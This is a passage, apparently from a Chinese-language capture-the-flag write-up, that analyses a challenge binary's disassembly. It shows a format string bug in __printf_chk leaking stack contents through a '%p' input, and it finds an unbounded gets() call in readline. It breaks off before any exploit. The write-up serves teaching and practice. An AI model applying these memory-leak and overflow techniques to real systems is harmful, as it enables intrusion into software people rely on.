```
 8c9:   75 06                   jne    8d1 <main+0x81>
 8cb:   48 83 c4 50             add    rsp,0x50
 8cf:   5b                      pop    rbx
 8d0:   c3                      ret    
 8d1:   e8 0a ff ff ff          call   7e0 <__stack_chk_fail@plt>
 8d6:   66 2e 0f 1f 84 00 00    nop    WORD PTR cs:[rax+rax*1+0x0]
 8dd:   00 00 00
```

觀察後發現，此 `__printf_chk()` 查詢 Linux Standard Base Core Specification[2] 後發現會引發 format string 漏洞<br>
```C
int __printf_chk(int flag, const char * format);
```
原因在 `__printf_chk()` 第二個參數 `rsi` 為可輸入(or可控)的變數 <br>
```
 888:   48 89 de                mov    rsi,rbx
 88b:   bf 01 00 00 00          mov    edi,0x1
 890:   31 c0                   xor    eax,eax
 892:   e8 89 ff ff ff          call   820 <__printf_chk@plt>
```
往上 trace 會得知 `rbx` 值為 `rsp`，也就是透過此漏洞可以 leak 出 **stack section 的內容**
```shell
$ ./chall
%p %p %p %p %p %p %p %p %p %p
0x7ffcc97bb7b0 0x10 0x7fb1c8a8e8c0 0x7fb1c8c9c500 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025 (nil) (nil)
```

並且發現 `main()` 所呼叫的 `readline()` 並非 import，<br>
使用 objdump trace 一下，發現此程式使用了 `gets()` <br>
```
0000000000000a30 <readline>:
 a30:   55                      push   rbp
 a31:   53                      push   rbx
 a32:   31 c0                   xor    eax,eax
 a34:   48 89 fb                mov    rbx,rdi
 a37:   89 f5                   mov    ebp,esi
 a39:   48 83 ec 08             sub    rsp,0x8
 a3d:   e8 ce fd ff ff          call   810 <gets@plt>
 a42:   48 89 df                mov    rdi,rbx
 a45:   e8 86 fd ff ff          call   7d0 <strlen@plt>
 a4a:   39 e8                   cmp    eax,ebp
 a4c:   7d 07                   jge    a55 <readline+0x25>
 a4e:   48 83 c4 08             add    rsp,0x8
 a52:   5b                      pop    rbx
 a53:   5d                      pop    rbp
 a54:   c3                      ret    
 a55:   48 8d 3d 98 00 00 00    lea    rdi,[rip+0x98]        # af4 <_IO_stdin_used+0x4>
 a5c:   e8 5f fd ff ff          call   7c0 <puts@plt>
 a61:   bf 01 00 00 00          mov    edi,0x1
 a66:   e8 45 fd ff ff          call   7b0 <_exit@plt>
 a6b:   0f 1f 44 00 00          nop    DWORD PTR [rax+rax*1+0x0]
```

